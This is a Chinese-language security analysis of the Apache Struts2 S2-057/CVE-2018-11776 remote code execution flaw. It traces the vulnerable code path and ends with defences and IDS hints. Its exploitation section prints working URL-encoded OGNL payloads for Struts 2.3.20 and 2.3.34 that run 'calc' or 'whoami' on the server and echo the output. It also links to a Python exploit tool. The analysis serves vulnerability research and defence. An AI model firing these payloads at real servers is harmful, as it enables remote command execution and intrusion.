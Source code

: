 **Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）**

**Ivan\@360云影实验室**

**2018年08月24日**

0x01 前言
=========

2018年8月22日，Apache Strust2发布最新安全公告，Apache
Struts2存在远程代码执行的高危漏洞（S2-057/CVE-2018-11776），该漏洞由Semmle
Security Research team的安全研究员Man
YueMo发现。该漏洞是由于在Struts2开发框架中使用namespace功能定义XML配置时，namespace值未被设置且在上层动作配置（Action
Configuration）中未设置或用通配符namespace，可能导致远程代码执行。同理，url标签未设置value和action值且上层动作未设置或用通配符namespace时也可能导致远程代码执行，经过笔者自建环境成功复现漏洞且可以执行命令回显，文末有你们想要的
!

0x02 漏洞利用
=============

**笔者搭的环境分别是Strust2 2.3.20 版本和 Strust2
2.3.34版本，漏洞利用大致分为三种方式：数值计算、弹出计算器、 命令回显。**

2.1、数值计算
-------------

数值计算相对最简单，在URL上指定 %{100+200} 就可以发生跳转，得到计算的结果

![](media/94726c86e6004ee27a8dc77d96af4ef2.png)

2.2、弹出计算器
---------------

2.3.20 版本的POC如下：

| /%24%7B%23_memberAccess%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%2C\@java.lang.Runtime\@getRuntime%28%29.exec%28%27calc.exe%27%29%7D/index.action |
|------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/cbda8636cf368f61135ce07397ad16ce.png)

2.3.34 版本参考的POC如下：

| /%24%7B%28%23dm%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28\@com.opensymphony.xwork2.ognl.OgnlUtil\@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D\@java.lang.Runtime\@getRuntime%28%29.exec%28%22calc%22%29%29%7D/index.action |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/7abe1a9a64e93352939d25c7770b935b.png)

2.3、命令回显
-------------

两个版本都是利用com.opensymphony.xwork2.dispatcher.HttpServletResponse对象去打印命令执行后的回显数据

2.3.20 版本的POC如下：

| /%24%7B%28%23_memberAccess%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28\@org.apache.commons.io.IOUtils\@toString%28\@java.lang.Runtime\@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


2.3.34 版本的POC如下：

| /%24%7B%28%23dm%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28\@com.opensymphony.xwork2.ognl.OgnlUtil\@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28\@org.apache.commons.io.IOUtils\@toString%28\@java.lang.Runtime\@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


攻击后效果如下图

![](media/093165b99da65dd906175514be40d3ca.png)

0X03 漏洞分析
=============

在分析漏洞之前，需要配置struts.xml文件，这个文件就是struts2的核心配置文件，大多数的时候增减配置都需要操控这里；

![](media/899737735005243606a63a9e74e0128e.png)

总共两处需要注意，第一处一定要配置struts.mapper.alwaysSelectFullNamespace = true
，否则不能触发漏洞，这个配置的目的是设定是否一直在最后一个斜线之前的任何位置选定NameSpace；第二处result标签返回的类型选择
“ redirectAction 或 chain“ ,
只有这两个配置选项的值是可以将action转发或者重定向；关于type具体可以参考下图

![](media/7292e2ae581bf86a70ab8d07a8060f18.png)

说完了配置，开始动态分析。漏洞位于
struts2-core.jar!/org/apache/struts2/dispatcher/ServletActionRedirectResult.class

![](media/8beae58966835ff61dea31b3bb5675cb.png)

This.namespace这个成员的值来自于getNamespace()方法，再通过getUriFromActionMapping()返回URI字符串；

![](media/3e27519ab12454f4a1d13682c87755bf.png)

通过getUriFromActionMapping获取的值赋给了tmpLocation变量，接着表达式进入setLocation方法

![](media/7a1b9d05e757a111e810363166d8eaa4.png)

再通过super.execute方法调用了ServletActionResult ，
而在execute方法体内跟进了conditionalParse方法，在这个方法内调用了ONGL执行的关键方法translateVariables。

![](media/02bb7f6419984f55f4f77157ca9cf9ae.png)

获得的param值传入到translateVariables()方法内，最终在OnglTextPaser里导致了OGNL表达式执行。

![](media/14b7334b020914ff8aa1788ce23aa34a.png)

![](media/675a1234cda8ccf988e4e751a900e0a5.png)

再弹出计算器后获得lastFinalLocation的值为当前执行后的句柄，这个值作为响应跳转的action地址
，也就是在浏览器中弹出计算器后在地址栏中出现的URI

![](media/a3027e83211837c6b6de145b1eb4584c.png)

到这里弹出计算器的分析到此为止，接下来看下基于命令执行回显结果的分析，基本上流程和上述一样，唯一不同之处lastFinalLocation返回的值是NULL，这也就引发出提交后没有做302的跳转，依旧是当前的action，并且返回的值是200

![](media/33791c224f4b07b693c532c39fbe2860.png)

![](media/e1aca1afc0fc3d10e4e865dc5d96adef.png)

知道了原理后小同事用python实现了自动化利用工具，此工具用途仅供学习研究；

![image.png](media/62cbbac3c4b09ef91758b028481d7fc8.jpg)

0x04 防御措施
=============

1.  将框架版本升级到官方最新版本；

2.  对于Web应用来说，尽量保证代码的安全性；

3.  对于IDS规则层面来说，数值计算和弹计算器返回的状态码都是302，并且Location跳转字段含有特征句柄字符串；如果是命令回显返回的200状态码，且有命令结果输出；

0x05 小结
=========

文章中提及的python EXP下载地址： <https://github.com/Ivan1ee> ；

0x06 参考链接
=============

<https://cwiki.apache.org/confluence/display/WW/S2-057>

<https://lgtm.com/blog/apache_struts_CVE-2018-11776>

<https://blog.csdn.net/madison__/article/details/55671426>

# 云影实验室长期招聘安全开发工程师 (可实习) / 安全研究员(样本沙箱方向)岗位，有意者可联系笔者微信号  

![](media/wechat.png)
